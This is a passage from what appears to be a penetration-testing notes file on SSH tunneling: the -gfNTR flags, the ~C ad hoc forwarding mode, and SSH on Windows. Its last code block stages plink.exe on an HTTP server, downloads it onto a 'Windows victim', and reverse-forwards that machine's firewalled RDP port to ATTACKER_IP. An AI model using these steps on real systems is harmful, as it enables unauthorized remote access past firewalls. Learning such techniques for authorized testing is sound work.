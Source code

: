 You can also set up OpenSSH (v4.3+) to act as a full VPN to tunnel traffic. See
[here](https://wiki.archlinux.org/index.php/VPN_over_SSH#OpenSSH's_built_in_tunneling) for how to do it. (`-w` command flag, or `Tunnel` ssh_config option).

**PRO TIP**: If setting up a remote ssh tunnel purely to (remote-)forward traffic, use the following flags: `-gfNTR`.

- `-f` forks the ssh process into the background after
connection is established so you can keep using your terminal.
- `-N` and `-T` say "No" commands can be executed and no "TTY" is allocated.
  Using these together prevents command execution on the remote host (jump box)
- `-g` and `-R` enable "Gateway" ports and do "Remote" port forwarding


### 8.1.1 Ad Hoc SSH Port Forwards

TL;DR:

```
<ENTER><ENTER>~C
help
```

`ssh` also has an open command line mode to add or delete **ad hoc port forwards**. This can be summoned by typing the `<shift> ~ c` key sequence (`~C`) after SSH-ing into a box. One nuance to note is that the `~C` is only recognized after a new line, so be sure to hit Enter a few times before typing in the key sequence. It likes to be called from a pure blinking command prompt that hasn’t been "dirtied" by, for example, typing something, then deleting it. So just be sure to hit Enter a few times before trying to drop into the SSH open command line mode.

The ssh prompt will change to `ssh>` when you enter ad hoc command line mode.

Typing `help` in ad hoc command line mode shows command syntax examples.


### 8.1.2 SSH on Windows

SSH comes with Windows 10 by default since 1803 (and optionally since 1709). It's found in the `%systemdrive%\Windows\System32\OpenSSH` folder. Use `ssh.exe` just like `ssh` on Linux.

```powershell
# check if SSH is on Windows
where.exe ssh

# check if version >= 7.6, so we can use Reverse Dynamic forwarding
ssh.exe -V
```

The other option is to copy **`plink.exe`** over to the Windows box.

> ⚠ **NOTE:** If you need a SOCKS proxy instead of just direct port forwarding, DON'T use plink! It doesn't support SOCKS. Use chisel instead!!!

```sh
# grab copy of plink and host on http for Windows victim
cp /usr/share/windows-resources/binaries/plink.exe .
python -m http.server 80

# on windows, download it
iwr http://LISTEN_IP/plink.exe -outfile C:\Windows\Temp\plink.exe

# use plink similar to ssh, with addition of '-l USER -pw PASSWD'
# Note: echo y accepts host key on non-interactive shells.
# This command opens up the victim's firewalled RDP to your kali box.
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l portfwd -pw herpderp -N -R 3389:127.0.0.1:3389 ATTACKER_IP
```

